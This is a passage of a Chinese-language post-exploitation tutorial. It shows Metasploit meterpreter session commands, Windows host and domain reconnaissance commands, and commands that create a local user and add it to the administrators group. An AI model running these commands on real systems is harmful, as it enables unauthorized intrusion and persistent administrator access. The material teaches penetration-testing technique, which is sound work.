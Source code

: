 ```plain
1. sessions -i
2. #查看已经获取的会话
3. sessions -i 1
4. #连接到指定序号的meterpreter会话已继续利用
```

[![](assets/1701827767-7c3cac263078b7374382892b027b8077.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191306-c4659dfe-9103-1.png)

## 信息搜集:

### 基础信息搜集：

如遇shell乱码问题可输入`chcp 65001`缓解部分问题

```plain
输入 ashelp 查看本地命令
net user 查看本地账户
whoami 当前用户权限
ipconfig -all Windows IP 配置
systeminfo  #信息
tasklist #查询进程及服务
ipconfig /all #.域信息
netstat -an #查看端口状态
net view
net view /domain #查看当前登录域与用户信息
```

### 添加用户：

```plain
net user srn7 P@ssword /add
# 添加用户
net localgroup administrators srn7 /add
# 将用户添加至管理员组
net user srn7
```

[![](assets/1701827767-533b3c24dc77a11bc60566ec4af2d646.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191335-d613f780-9103-1.png)
